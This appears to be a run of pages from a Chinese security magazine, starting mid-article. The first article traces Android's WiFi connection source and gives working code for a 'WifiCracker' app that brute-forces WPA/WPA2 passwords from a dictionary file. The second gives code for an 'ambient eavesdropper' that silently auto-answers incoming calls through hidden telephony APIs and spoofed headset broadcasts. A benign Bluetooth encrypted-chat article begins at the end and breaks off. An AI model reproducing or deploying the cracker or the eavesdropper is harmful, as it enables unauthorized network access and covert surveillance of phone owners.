
@Override
public Dialog onCreateDialog(int dialogId) {
    AccessPoint ap = mDlgAccessPoint; // For manual launch
    if (ap == null) { // For re-launch from saved state
        if (mAccessPointSavedState != null) {
            ...
        }
    }
}
```

这段代码保存 `accessPoint` 后就调用 `showDialog(WIFI_DIALOG_ID)`，在 `onCreateDialog()` 初始化方法中判断 `mDlgAccessPoint` 是否为 `null`，如果为 `null` 就调用 `AccessPoint` 的构造方法从保存状态中生成一个 `AccessPoint`，最后使用 `new WifiDialog(getActivity(), this, ap, mDlgEdit)` 生成 `WifiDialog`。这个 `WifiDialog` 继承自 `AlertDialog`，最终将对话框展现出来。`WifiDialog` 构造函数的第二个参数为 `DialogInterface.OnClickListener` 的监听器，设置为 `this`，表示类本身对按钮点击事件进行响应，接下来找事件响应代码。

```java
public void onClick(DialogInterface dialogInterface, int button) {
    if (mInXlSetupWizard) {
        if (button == WifiDialog.BUTTON_FORGET && mSelectedAccessPoint != null) {
            forget();
        } else if (button == WifiDialog.BUTTON_SUBMIT) {
            ((WifiSettingsForSetupWizardXL)getActivity()).onConnectButtonPressed();
        }
    } else {
        if (button == WifiDialog.BUTTON_FORGET && mSelectedAccessPoint != null) {
            forget();
        } else if (button == WifiDialog.BUTTON_SUBMIT) {
            submit(mDialog.getController());
        }
    }
}
```

代码判断弹出的对话框用于 WiFi 热点抛弃还是 WiFi 连接，并做出相应处理。这里看看 `submit()` 方法的代码：

```java
void submit(WifiConfigController configController) {
    int networkSetup = configController.chosenNetworkSetupMethod();
    switch(networkSetup) {
        case WifiConfigController.WPS_PBC:
        case WifiConfigController.WPS_DISPLAY:
            ...
    }
}
```

## Android 远程监控技术

```java
case WifiConfigController.WPS_KEYPAD:
    mWifiManager.startWps(configController.getWpsConfig());
    break;
case WifiConfigController.MANUAL:
    final WifiConfiguration config = configController.getConfig();
    if (config == null) {
        if (mSelectedAccessPoint != null
            && !requireKeyStore(mSelectedAccessPoint.getConfig())
            && mSelectedAccessPoint.networkId != INVALID_NETWORK_ID) {
            mWifiManager.connectNetwork(mSelectedAccessPoint.networkId);
        }
    } else if (config.networkId != INVALID_NETWORK_ID) {
        if (mSelectedAccessPoint != null) {
            saveNetwork(config);
        }
    } else {
        if (configController.isEdit() || requireKeyStore(config)) {
            saveNetwork(config);
        } else {
            mWifiManager.connectNetwork(config);
        }
    }
    break;
...
if (mWifiManager.isWifiEnabled()) {
    mScanner.resume();
}
updateAccessPoints();
```

找，最终在源码的 `frameworks\base\wifi\java\android\net\wifi\WifiManager.java` 文件中找到，是通过向自身发送消息的方式调用了 `WifiStateMachine.java -> WifiConfigStore.java -> saveNetwork()` 方法，最终保存 WiFi 网络后发送了一个已配置网络变更广播，这里由于篇幅就不再展开了。

分析到这里，大概了解了 WiFi 连接的整个流程。程序无论是否为加密的 WiFi 网络，最终都调用 `WifiManager` 的 `connectNetwork()` 方法来连接网络。而这个方法在 SDK 中却没有导出，我们该如何解决这个问题呢？

### 2. connectNetwork() 方法

我始终不明白安卓 SDK 为什么不开放 `connectNetwork` 这个接口，但现在需要用到了，也只能接着往下面分析。`WifiManager` 是 Framework 层的，接下来的探索移步到安卓源码的 `frameworks\base\wifi\java\android\net\wifi` 目录中去，在 `WifiManager.java` 中搜索 `connectNetwork`，代码如下：

关键代码终于找到了，按钮事件首先对 WiFi 网络加密类型进行判断，是 WPS 的就调用 `mWifiManager.startWps(configController.getWpsConfig())`，是手动设置的就调用被点击 `AccessPoint` 项的 `getConfig()` 方法读取 `WifiConfiguration` 信息，如果不为 `null`，就调用 `connectNetwork(mSelectedAccessPoint.networkId)` 连接网络；为 `null` 说明可能是 `AccessPoint` 调用第二个构造函数时使用 `ScanResult` 生成的，此时调用 `saveNetwork(config)`，看看 `saveNetwork()` 的代码：

```java
private void saveNetwork(WifiConfiguration config) {
    if (mInXlSetupWizard) {
        ((WifiSettingsForSetupWizardXL)getActivity()).onSaveNetwork(config);
    } else {
        mWifiManager.saveNetwork(config);
    }
}
```

调用的 `mWifiManager.saveNetwork(config)` 方法同样在 SDK 中没有导出，到源码中找。

```java
/**
 * Connect to a network with the given configuration.
 * The network also gets added to the supplicant configuration.
 * For a new network, this function is used instead of a
 * sequence of addNetwork(), enableNetwork(), saveConfiguration() and reconnect().
 * @param config the set of variables that describe the configuration,
 *               contained in a {@link WifiConfiguration} object.
 * @hide
 */
public void connectNetwork(WifiConfiguration config) {
    if (config == null) {
        return;
    }
    mAsyncChannel.sendMessage(CMD_CONNECT_NETWORK, config);
}
```

注意看注释部分：“对于一个新的网络，这个函数相当于陆续调用了 `addNetwork()`、`enableNetwork()`、`saveConfiguration()` 与 `reconnect()`。”看到这句话，心里可美了，因为这 4 个函数在 SDK 中都被导出了，在代码中分别调用它们不就达到调用 `connectNetwork` 的目的了？

继续分析代码，如果 `config` 不为空，`connectNetwork` 就通过 `mAsyncChannel` 发送一条 `CMD_CONNECT_NETWORK` 的消息，`mAsyncChannel` 的声明如下：

```java
/* For communication with WifiService */
private AsyncChannel mAsyncChannel = new AsyncChannel();
```

从注释上理解，这个是用来与 `WifiService` 通信的。`WifiService` 属于 Framework 底层的服务，位于源码 `\frameworks\base\services\java\com\android\server` 目录，找到代码如下：

```java
@Override
public void handleMessage(Message msg) {
    switch (msg.what) {
    ...
    case WifiManager.CMD_CONNECT_NETWORK: {
        if (msg.obj != null) {
            mWifiStateMachine.connectNetwork((WifiConfiguration) msg.obj);
        } else {
            mWifiStateMachine.connectNetwork(msg.arg1);
        }
        break;
    }
    ...
    }
}
```

在 `handleMessage()` 方法中有很多消息处理，这里由于篇幅只列出了 `CMD_CONNECT_NETWORK`。可以看出 `WifiService` 就是个“托”，它只是将“病人”重新转给 `mWifiStateMachine` 处理，`mWifiStateMachine` 为 `WifiStateMachine` 类，代码和 `WifiManager` 在同一目录。找到 `connectNetwork`，代码如下：

```java
public void connectNetwork(int netId) {
    sendMessage(obtainMessage(CMD_CONNECT_NETWORK, netId, 0));
}

public void connectNetwork(WifiConfiguration wifiConfig) {
    /* arg1 is used to indicate netId, force a netId value of
     * WifiConfiguration.INVALID_NETWORK_ID when we are passing
     * a configuration since the default value of 0 is a valid netId.
     */
    sendMessage(obtainMessage(CMD_CONNECT_NETWORK,
            WifiConfiguration.INVALID_NETWORK_ID,
            0, wifiConfig));
}
```

太有才了！还在发消息，只不过是给自己发，找到处理代码如下：

```java
@Override
public boolean processMessage(Message message) {
    ...
    case CMD_CONNECT_NETWORK:
        int netId = message.arg1;
        WifiConfiguration config = (WifiConfiguration) message.obj;
        /* We connect to a specific network by issuing a select
         * to the WifiConfigStore. This enables the network,
         * while disabling all other networks in the supplicant.
         * Disabling a connected network will cause a disconnection
         * from the network. A reconnectCommand() will then initiate
         * a connection to the enabled network.
         */
        if (config != null) {
            netId = WifiConfigStore.selectNetwork(config);
        } else {
            WifiConfigStore.selectNetwork(netId);
        }
        /* The state tracker handles enabling networks upon completion/failure */
        mSupplicantStateTracker.sendMessage(CMD_CONNECT_NETWORK);

        WifiNative.reconnectCommand();
        mLastExplicitNetworkId = netId;
        mLastNetworkChoiceTime = SystemClock.elapsedRealtime();
        mNextWifiActionExplicit = true;
        if (DBG) log("Setting wifi connect explicit for netid " + netId);
        /* Expect a disconnection from the old connection */
        transitionTo(mDisconnectingState);
        break;
    ...
}
```

注释中说：通过 `WifiConfigStore` 的 `selectNetwork()` 方法连接一个特定的网络，当禁用 supplicant 中的其他网络时，会连接网络；而禁用一个已经连接的网络，将会引发 `disconnection` 操作，`reconnectCommand()` 方法会初始化并连接已启用的网络。

`selectNetwork()` 执行过后，`mSupplicantStateTracker` 发送了一条 `CMD_CONNECT_NETWORK` 消息，它其实只做了一件事，就是将 `mNetworksDisabledDuringConnect` 设为……最后 `WifiNative.reconnectCommand()` 对网络进行重新连接。至此，WiFi 的连接过程就完毕了，下面看看 `selectNetwork()` 代码：

```java
static int selectNetwork(WifiConfiguration config) {
    if (config != null) {
        NetworkUpdateResult result = addOrUpdateNetworkNative(config);
        int netId = result.getNetworkId();
        if (netId != INVALID_NETWORK_ID) {
            selectNetwork(netId);
        } else {
            loge("Failed to update network " + config);
        }
        return netId;
    }
    return INVALID_NETWORK_ID;
}

static void selectNetwork(int netId) {
    // Reset the priority of each network at start or if it goes too high
    if (sLastPriority == -1 || sLastPriority > 1000000) {
        synchronized (sConfiguredNetworks) {
            for (WifiConfiguration config : sConfiguredNetworks.values()) {
                if (config.networkId != INVALID_NETWORK_ID) {
                    config.priority = 0;
                    addOrUpdateNetworkNative(config);
                }
            }
        }
        sLastPriority = 0;
    }

    // Set to the highest priority and save the configuration
    WifiConfiguration config = new WifiConfiguration();
    config.networkId = netId;
    config.priority = ++sLastPriority;
    addOrUpdateNetworkNative(config);
    WifiNative.saveConfigCommand();
    enableNetworkWithoutBroadcast(netId, true);
}
```

代码都在这里了，这段代码流程为：`addOrUpdateNetworkNative()` 先保存一下网络配置信息，然后将已保存的网络优先级降下来，这是为了让新网络拥有更高的优先连接权，接着执行 `saveConfigCommand()`，将配置信息保存。这里的保存操作在底层是将网络信息保存到了 `/data/misc/wifi/wpa_supplicant.conf` 文件中；最后，`enableNetworkWithoutBroadcast(netId, true)` 启用本网络并禁用其他网络。

- `WifiConfigStore.selectNetwork()`
- `addOrUpdateNetworkNative()`
- 其他网络降级并设置自己为最高优先级
- `WifiNative.saveConfigCommand()`
- `enableNetworkWithoutBroadcast(netId, true)`
- `WifiNative.reconnectCommand()`
- 通过广播判断连接成功或失败

既然 `connectNetwork` 的执行步骤现在清楚了，那我们自己实现它便可以完成对 WiFi 的手动连接了。

### 3. 代码编写

WiFi 密码破解器的编写有 3 种思路：第一种就是上面说的自己动手实现 `connectNetwork`，按照 SDK 中常规步骤连接 WiFi，本文采用此方法。第二种是参考 WiFi 的连接代码，通过 NDK 方式自己实现 WiFi 底层的调用，这种方法本文不介绍。第 3 种方法同样通过 NDK 方式，但优雅些。

在上面的分析中，我没有提到安卓 WiFi 的核心 `wpa_supplicant`，它作为安卓 WiFi 的一个组件存在，为安卓系统提供了 WPA、WPA2 等加密网络的连接支持。在手机系统的 `/system/bin` 目录中有 `wpa_supplicant` 与 `wpa_cli` 两个文件，前者是一个服务，客户端通过它控制手机无线网卡，如发送 AP 扫描指令、提取扫描结果、关联 AP 操作等。后者是一个命令行工具，用来与 `wpa_supplicant` 通信，在正常启动 `wpa_supplicant` 服务后执行下面的指令便可以连上 WiFi 网络：

```bash
wpa_cli -iwlan0 add_network                 # 增加一个网络，会返回一个网络号，假设为1
wpa_cli -iwlan0 set_network 1 ssid '""'     # ssid 为要连接的网络名
wpa_cli -iwlan0 set_network 1 psk '""'      # psk 为连接的密码
wpa_cli -iwlan0 enable_network 1            # 以下参考上面 connectNetwork 分析功能一致
wpa_cli -iwlan0 select_network 1
wpa_cli -iwlan0 save_config
```

但实际上，通过命令行启动 `wpa_supplicant` 却不能成功，因为需要先加载 WiFi 驱动，然后才能启用 `wpa_supplicant` 服务。在手机 WLAN 设置中启用 WiFi 后，会调用 `WifiManager.setWifiEnabled`，这个方法会依次调用 `WifiNative.loadDriver()`、`WifiNative.startSupplicant()`。在加载成功后会设置一个延迟时间，到延迟时间后就会调用 `WifiNative.stopSupplicant()`、`WifiNative.unloadDriver()`，停止 `wpa_supplicant` 服务并卸载驱动，这是为了给设备省电，因为 WiFi 驱动长时间加载是很耗电的。

命令行本身无法直接加载驱动，导致了 `wpa_supplicant` 无法成功开启，这也是无法通过命令行直接连接 WiFi 的原因，但并不是没有突破方法！可以写代码并使用 NDK 方式调用 `WifiNative.loadDriver()`，接着启用 `wpa_supplicant` 服务，服务加载成功后执行上面的 `wpa_cli` 命令行，就可以轻松连接 WiFi 了。可以直接写一个原生的 `bin`，实现驱动加载及 WiFi 连接，然后在安卓代码中直接以创建进程的方式启动，或者在 shell 中执行等方式运行。

目前 WiFi 加密种类常用的有 WEP、WPA、WPA2、EAP 等，`WifiManager` 将 WEP 与 EAP 做了内部消化，WPA 与 WPA2 则使用 `wpa_supplicant` 进行管理。由于 WEP 的安全性问题，使用的人已经不多了，一般用户采用 WPA 与 WPA2 方式接入较多，在今天的程序中，也只处理了这两种加密的情况。

按照上面的分析思路，代码实现应该很明了了，但实际编码过程中还存在着诸多问题。首先是停止扫描的问题，在 `WifiManager` 中没有提供 `stopScan()` 方法，而是在其中通过一个内部继承自 `Handler` 的 `Scanner` 来管理。目前来说，我没想到解决方案，在开始破解跑 WiFi 密码的过程中，WiFi 扫描线程一直还是开着，我只是通过一个 `cracking` 的布尔值判断来阻止界面的更新，这个问题可能在 SDK 层无法得到解决。

第二个问题是一些类的枚举值，如 `SupplicantState.AUTHENTICATING`、`KeyMgmt.WPA2_PSK` 等，在 SDK 中都是没导出的，要想使用就需要自己添加。谈到 `WPA2_PSK`，很有必要讲一下 `WifiConfiguration` 类的构造：连接 WiFi 前需要先构造这个类，然后通过 `addNetwork()` 添加网络操作后才能进行下一步的连接。在网上搜索到的连接代码如下：

```java
...
```

```java
mConfig = new WifiConfiguration();
mConfig.status = WifiConfiguration.Status.ENABLED;
mConfig.hiddenSSID = false;
mConfig.SSID = "\"ssid\"";
mConfig.preSharedKey = "\"password\"";
mConfig.allowedAuthAlgorithms.set(AuthAlgorithm.OPEN);
mConfig.allowedKeyManagement.set(KeyMgmt.WPA_PSK);
mConfig.allowedProtocols.set(WifiConfiguration.Protocol.RSN);
mConfig.allowedPairwiseCiphers.set(PairwiseCipher.CCMP);
mConfig.allowedPairwiseCiphers.set(PairwiseCipher.TKIP);
mConfig.allowedGroupCiphers.set(GroupCipher.CCMP);
mConfig.allowedGroupCiphers.set(GroupCipher.TKIP);
int netid = wm.addNetwork(mConfig);
wm.enableNetwork(netid, false);
```

在测试初期我是直接照搬这段代码来用的，实际上这段代码是无用的，根本连接不上任何的 WiFi，状态代码显示一直停留在关联 AP 中，而且这样设置 `WifiConfiguration` 后在手机设置中也无法开启使用 WiFi 了。后来跟踪 WiFi 连接的过程后，整理出的代码如下：

```java
if (security == SECURITY_PSK) {
    mConfig = new WifiConfiguration();
    mConfig.SSID = AccessPoint.convertToQuotedString(ssid);
    if (pskType == PskType.WPA) {
        mConfig.allowedProtocols.set(WifiConfiguration.Protocol.WPA);
    } else if (pskType == PskType.WPA2) {
        mConfig.allowedProtocols.set(WifiConfiguration.Protocol.RSN);
    }
    mConfig.priority = 1;
    mConfig.status = WifiConfiguration.Status.ENABLED;
    mConfig.SSID = "\"ssid\"";
    mConfig.preSharedKey = "\"password\"";
    int netid = wm.addNetwork(mConfig);
    wm.enableNetwork(netid, false);
}
```

代码比上面的要简洁些。启动 Eclipse 新建一个 `WifiCracker` 的工程，`onCreate()` 方法代码如下：

```java
public void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    try {
        passwordGetter = new PasswordGetter("/sdcard/password.txt");
    } catch (FileNotFoundException e) {
    }

    showMessageDialog("程序初始化失败!", "请将密码字典放到 SD 卡目录并更名为 password.txt", "确定", false, new OnClickListener() {
        public void onClick(DialogInterface dialog, int which) {
            WiFiCracker.this.finish();
        }
    });

    wm = (WifiManager)getSystemService(WIFI_SERVICE);
    if (!wm.isWifiEnabled())
        wm.setWifiEnabled(true);   // 开启 WiFi

    deleteSavedConfigs();
    cracking = false;
    netid = -1;
    wifiReceiver = new WifiReceiver();
    intentFilter = new IntentFilter(WifiManager.SCAN_RESULTS_AVAILABLE_ACTION);
    intentFilter.addAction(WifiManager.SUPPLICANT_STATE_CHANGED_ACTION);
    registerReceiver(wifiReceiver, intentFilter);
    wm.startScan(); // 开始扫描网络
}
```

```java
public String getPassword() {
    try {
        password = br.readLine();
    } catch (IOException e) {
        e.printStackTrace();
        password = null;
    }
    return password;
}

public void Clean() {
    try {
        br.close();
        reader.close();
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

这个类很简单，具体代码就不分析了。为了方便配置与加载 `WifiConfiguration`，我将安卓源码中的 `AccessPoint` 类进行部分改装，这样可以节省很多时间。

程序的核心在于对 WiFi 状态的控制与连接，前者我使用了广播接收者进行监听，在收到广播后进行相应处理，代码如下：

`deleteSavedConfigs()` 方法将手机已存的 Config 全部删除，原因是如果已经保存了正确的 WiFi 连接密码，程序会无法工作，具体代码参看附件。然后构造一个 `PasswordGetter` 对象，它用来读取 `/sdcard/password.txt` 文件，作为 WiFi 的探测密码，类的完整代码如下：

```java
public class PasswordGetter {
    private String password;
    private File file;
    private FileReader reader;
    private BufferedReader br;

    public PasswordGetter(String passwordFile) {
        password = null;
        try {
            file = new File(passwordFile);
            if (!file.exists()) throw new FileNotFoundException();
            reader = new FileReader(file);
            br = new BufferedReader(reader);
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        }
    }

    public void reSet() {
        try {
            br.close();
            reader.close();
            reader = new FileReader(file);
            br = new BufferedReader(reader);
        } catch (IOException e) {
            e.printStackTrace();
            password = null;
        }
    }
}
```

```java
class WifiReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        String action = intent.getAction();
        if (WifiManager.SCAN_RESULTS_AVAILABLE_ACTION.equals(action)) {
            if (results == null) results = wm.getScanResults();
            try {
                setTitle("WiFi 连接点个数为:" + String.valueOf(getPreferenceScreen().getPreferenceCount()));
            } catch (Exception e) {
                e.printStackTrace();
            }
            if (cracking == false) update();
        } else if (WifiManager.SUPPLICANT_STATE_CHANGED_ACTION.equals(action)) {
            WifiInfo info = wm.getConnectionInfo();
            SupplicantState state = info.getSupplicantState();
            String str = null;
            if (state == SupplicantState.ASSOCIATED) {
                str = "关联 AP 完成";
            } else if (state.toString().equals("AUTHENTICATING")) {
                str = "正在验证";
            } else if (state == SupplicantState.ASSOCIATING) {
                str = "正在关联 AP...";
            }
        }
    }
}
```

```java
SupplicantState.COMPLETED) {
    if (cracking) {
        cracking = false;
        showMessageDialog("恭喜您，密码跑出来了！", "密码为：" + AccessPoint.removeDoubleQuotes(password), "确定", false, ...);
        wm.disconnect();
        enablePreferenceScreens(true);
        return;
    } else {
        str = "已连接";
    }
} else if (state == SupplicantState.DISCONNECTED) {
    str = "已断开";
} else if (state == SupplicantState.DORMANT) {
    str = "暂停活动";
} else if (state == SupplicantState.FOUR_WAY_HANDSHAKE) {
    str = "四路握手中...";
} else if (state == SupplicantState.GROUP_HANDSHAKE) {
    str = "GROUP_HANDSHAKE";
} else if (state == SupplicantState.INACTIVE) {
    str = "休眠中...";
    if (cracking) connectNetwork();
} else if (state == SupplicantState.INVALID) {
    str = "无效";
} else if (state == SupplicantState.SCANNING) {
    str = "扫描中...";
} else if (state == SupplicantState.UNINITIALIZED) {
    str = "未初始化";
}
setTitle(str);
final int errorCode = intent.getIntExtra(WifiManager.EXTRA_SUPPLICANT_ERROR, -1);
if (errorCode == WifiManager.ERROR_AUTHENTICATING) {
    Log.d(TAG, "WiFi验证失败！");
}
```

```java
setTitle("WiFi验证失败！");
if (cracking == true)
    connectNetwork();
```

这些代码的实现一部分源于查看 SDK 后进行的测试，另一部分源于跟踪安卓源码时的摘录。如这段：

```java
final int errorCode = intent.getIntExtra(WifiManager.EXTRA_SUPPLICANT_ERROR, -1);
if (errorCode == WifiManager.ERROR_AUTHENTICATING) {
    Log.d(TAG, "WiFi验证失败！");
    setTitle("WiFi验证失败！");
    if (cracking == true)
        connectNetwork();
}
```

不查看安卓源码，根本不知道怎么检测 `WifiManager.ERROR_AUTHENTICATING`，这让我在写测试代码时也着实苦恼了一段时间。好了，代码就分析到这里，回想一下，网上为什么没有这样的软件也知道原因了，因为 SDK 中没有提供相应的 WiFi 连接接口，要想实现就必须要深入研究，因此，很多人觉得过于繁琐也就没人弄了。

最后，测试了一下效果，一分钟大概能跑 20 个密码，图 3 是其中一个跑密码截图。


图 3

## Android 环境窃听器的实现


文 Sam

### 1. Android 2.3 以下系统的实现方法

- 第一步：创建准系统包和 aidl 文件。  
  - （1）在应用中创建包：`android.telephony`。将 Android 系统框架下的 `framework\telephony\java\android\telephony` 目录中的 `NeighboringCellInfo.aidl` 文件复制到该包中。  
  - （2）在应用中创建包：`com.android.internal.telephony`。将 Android 系统框架下的 `framework\telephony\java\com\android\internal\telephony` 目录中的 `ITelephony.aidl` 文件复制到该包中。
- 第二步：创建一个获取 `ITelephony` 的方法，代码如下。
- 第三步：创建电话广播拦截器，代码如下。

```java
public class PhoneUtils {
    /**
     * 根据传入的 TelephonyManager 来取得系统的 ITelephony 实例
     */
    public static ITelephony getTelephony(TelephonyManager telephony) throws Exception {
        Method getTelephonyMethod = telephony.getClass().getDeclaredMethod("getITelephony");
        getTelephonyMethod.setAccessible(true);
        return (ITelephony) getTelephonyMethod.invoke(telephony);
    }
}
```

```java
public class MyPhoneBroadcastReceiver extends BroadcastReceiver {
    private final static String TAG = MyPhone.TAG;

    @Override
    public void onReceive(Context context, Intent intent) {
        String action = intent.getAction();
        Log.i(TAG, "[Broadcast]" + action);
        if (action.equals(MyPhone.B_PHONE_STATE)) {
            Log.i(TAG, "[Broadcast]PHONE_STATE");
            doReceivePhone(context, intent);
        }
    }

    public void doReceivePhone(Context context, Intent intent) {
        String phoneNumber = intent.getStringExtra(TelephonyManager.EXTRA_INCOMING_NUMBER);
        TelephonyManager telephony = (TelephonyManager) context.getSystemService(Context.TELEPHONY_SERVICE);
        int state = telephony.getCallState();
        switch (state) {
            case TelephonyManager.CALL_STATE_RINGING:
                Log.i(TAG, "[Broadcast]等待接电话=" + phoneNumber);
                try {
                    ITelephony iTelephony = PhoneUtils.getTelephony(telephony);
                    iTelephony.answerRingingCall();
                    // iTelephony.endCall(); // 自动挂断
                } catch (Exception e) {
                    Log.e(TAG, "[Broadcast]Exception=" + e.getMessage(), e);
                }
                break;
            case TelephonyManager.CALL_STATE_IDLE:
                Log.i(TAG, "[Broadcast]电话挂断=" + phoneNumber);
                break;
            case TelephonyManager.CALL_STATE_OFFHOOK:
                Log.i(TAG, "[Broadcast]通话中=" + phoneNumber);
                break;
        }
    }
}
```

- 第四步：注册电话广播拦截器，代码如下。

```java
public class MyPhone extends Activity {
    public final static String TAG = "MyPhone";
    public final static String B_PHONE_STATE = TelephonyManager.ACTION_PHONE_STATE_CHANGED;

    private MyPhoneBroadcastReceiver mBroadcastReceiver;

    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.my_phone);
    }

    // 按钮1-注册广播
    public void registerThis(View v) {
        Log.i(TAG, "registerThis");
        mBroadcastReceiver = new MyPhoneBroadcastReceiver();
        IntentFilter intentFilter = new IntentFilter();
        intentFilter.addAction(B_PHONE_STATE);
        intentFilter.setPriority(Integer.MAX_VALUE);
        registerReceiver(mBroadcastReceiver, intentFilter);
    }

    // 按钮2-撤销广播
    public void unregisterThis(View v) {
        Log.i(TAG, "unregisterThis");
        unregisterReceiver(mBroadcastReceiver);
    }
}
```

- 第五步：在 AndroidManifest.xml 中配置权限，XML 代码如下。

```xml
<uses-permission android:name="android.permission.READ_PHONE_STATE" />
<uses-permission android:name="android.permission.MODIFY_PHONE_STATE" />
<uses-permission android:name="android.permission.CALL_PHONE" />
```

其中：“`iTelephony.answerRingingCall(); // 自动接通电话`”必须有 `android.permission.MODIFY_PHONE_STATE` 权限。

## Android 远程监控技术

### 2. Android 2.3 及以上系统的实现方法

上面的方法只针对 Android 2.3 以下系统，更高版本会失败。如果使用 TelephonyManager 获取到的 `answerRingingCall` 方法，就会抛出没有 `android.permission.MODIFY_PHONE_STATE` 的权限异常；其实你已经配了这个权限了，但是你的 App 不是系统软件，没有系统签名，所以还是不能调用，除非你 root 了你的手机，把你的 App 装到系统软件里面去，所以这里使用另外一种方法实现自动接听这个功能，详细如下。

- 要监听电话的拨打状况，需要这么几步：
- 1. 获取电话服务管理器。代码为 `TelephonyManager manager = this.getSystemService(TELEPHONY_SERVICE);`
- 2. 通过 TelephonyManager 注册我们要监听的电话状态改变事件：`manager.listen(new MyPhoneStateListener(), PhoneStateListener.LISTEN_CALL_STATE);`
- 3. 通过 `extends PhoneStateListener` 来定制自己的规则，将其对象传递给第二步作为参数。
- 4. 给应用添加权限，代码如下。

```java
android.permission.READ_PHONE_STATE
package auto_accept_call.com;
import android.app.Activity;
import android.content.Intent;
import android.os.Bundle;
import android.telephony.PhoneStateListener;
import android.telephony.TelephonyManager;
import android.util.Log;
import android.view.KeyEvent;
import android.widget.TextView;

public class Auto_accept_callActivity extends Activity {
    TelephonyManager manager;
    String result = "监听电话状态:\n";
    TextView textView;

    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        manager = (TelephonyManager) this.getSystemService(TELEPHONY_SERVICE);
        manager.listen(new MyPhoneStateListener(), PhoneStateListener.LISTEN_CALL_STATE);
    }

    public void auto_accept_call() {
        Intent localIntent1 = new Intent(Intent.ACTION_HEADSET_PLUG);
        localIntent1.addFlags(Intent.FLAG_ACTIVITY_NO_HISTORY);
        localIntent1.putExtra("state", 1);
        localIntent1.putExtra("microphone", 1);
        localIntent1.putExtra("name", "Headset");
        this.sendOrderedBroadcast(localIntent1, "android.permission.CALL_PRIVILEGED");

        Intent localIntent2 = new Intent(Intent.ACTION_MEDIA_BUTTON);
        KeyEvent localKeyEvent1 = new KeyEvent(KeyEvent.ACTION_DOWN, KeyEvent.KEYCODE_HEADSETHOOK);
        localIntent2.putExtra("android.intent.extra.KEY_EVENT", localKeyEvent1);
        this.sendOrderedBroadcast(localIntent2, "android.permission.CALL_PRIVILEGED");

        Intent localIntent3 = new Intent(Intent.ACTION_MEDIA_BUTTON);
        KeyEvent localKeyEvent2 = new KeyEvent(KeyEvent.ACTION_UP, KeyEvent.KEYCODE_HEADSETHOOK);
        localIntent3.putExtra("android.intent.extra.KEY_EVENT", localKeyEvent2);
        this.sendOrderedBroadcast(localIntent3, "android.permission.CALL_PRIVILEGED");

        Intent localIntent4 = new Intent(Intent.ACTION_HEADSET_PLUG);
        localIntent4.addFlags(Intent.FLAG_ACTIVITY_NO_HISTORY);
        localIntent4.putExtra("state", 0);
        localIntent4.putExtra("microphone", 1);
        localIntent4.putExtra("name", "Headset");
        this.sendOrderedBroadcast(localIntent4, "android.permission.CALL_PRIVILEGED");
    }
}
```

继承 `PhoneStateListener` 类，我们可以重新启用其内部的各种监听方法；然后当手机状态改变时，系统自动触发这些方法来实现我们想要的功能。

```java
class MyPhoneStateListener extends PhoneStateListener {
    @Override
    public void onCallStateChanged(int state, String incomingNumber) {
        Log.v("log", "oncall state changed");
        switch (state) {
            case TelephonyManager.CALL_STATE_IDLE:
                result += "手机空闲";
                break;
            case TelephonyManager.CALL_STATE_RINGING:
                result += "手机铃响:" + incomingNumber;
                Log.v("log", result);
                Auto_accept_callActivity.this.auto_accept_call();
                break;
            case TelephonyManager.CALL_STATE_OFFHOOK:
                result += "电话挂起";
            default:
                break;
        }
        super.onCallStateChanged(state, incomingNumber);
    }
}
```

到此，功能就完整实现了，在项目中具体运用时，代码可以套用。与本文相关代码，已包含在随文附件中。

## Android 远程监听技术

## Android 蓝牙安全通信


图/文 陈颖 高国勇 张帆

当我们对手机通话司空见惯的时候，文字聊天也成为了人们非常喜爱的方式。不少人常常按着手机上的微型数字键盘，快速发着短信。短信的发送是基于控制通道的通路与手机发射塔进行通信，这就意味着在某些情况下，如手机信号微弱、手机信号被关闭（飞行模式，关闭无线电信号）等，短信将无法发送，这时候人们是不是就不能聊天了呢？答案是否定的！手机除了基于无线信号的通信之外，还有基于蓝牙的通信、基于 WiFi 的通信等多种方式。

对于 Android 平台，它对这些通信方式的开发支持得非常好。实际上，Android 平台的手机应用开发支持非常广泛，我们能够基于 Android 平台提供的支持开发出各种各样的应用，例如：我们可以将蓝牙或者 WiFi 短消息聊天与 Android 的传感器开发结合起来，开发类似于微信的 Android 应用：通过摇一摇来找到周围的朋友，继而进行聊天等。本文尝试设计一个在……Android平台下基于蓝牙的安全通信软件，通过蓝牙连接进行加密短消息通信，以作抛砖引玉。其进一步的开发（如与传感器开发的结合等）留作将来的工作。

为了连接两个蓝牙设备，必须有一个设备作为服务器返回一个服务套接字。当远端设备发起连接请求，并且已经连接的时候，BluetoothServerSocket 类将会返回一个 BluetoothSocket。

### 一、开发环境

首先我们需要搭建开发环境，用的开发工具是 Eclipse，同时需要安装 JDK、ADT（Android Software Developer Kit）及 AVD（Android Virtual Devices）。安装顺序为 JDK、Eclipse、ADT 及 AVD。这里需要注意的是，安装好 JDK 之后，需要对环境变量进行配置。配置好之后在 CMD 中输入“java -version”便会看到如图 1 所示的界面，表示 JDK 已经安装成功。

Android 平台下的基于蓝牙的通信软件开发主要由蓝牙设备管理和蓝牙设备通信两个模块组成，其中蓝牙设备通信包括 4 个步骤：获取本地蓝牙设备、查找远程设备（或选择已配对设备）、连接设备和传输数据。

- 本程序主要分成 3 个部分：
  1. 蓝牙设备管理。内容包括：
     - 获取本地蓝牙设备。
     - 查找远程设备。
     - 连接远程设备（具体可参见蓝牙服务管理部分）。
  2. 蓝牙服务管理。内容包括：
     - 服务器端创建 BluetoothServerSocket。
     - 服务器监听 BluetoothServerSocket。
     - 客户端请求连接 BluetoothServerSocket。
     - 服务器端接受并提供 BluetoothSocket。
     - 服务器端关闭 BluetoothServerSocket。
  3. 蓝牙聊天管理（依赖于蓝牙服务管理）。内容包括：
     - 在客户端与服务器端建立连接后，即可实现聊天功能。
     - 发送/接收文本信息。
     - 文本信息加密/解密。


图 1　JDK 配置环境

### 二、软件开发

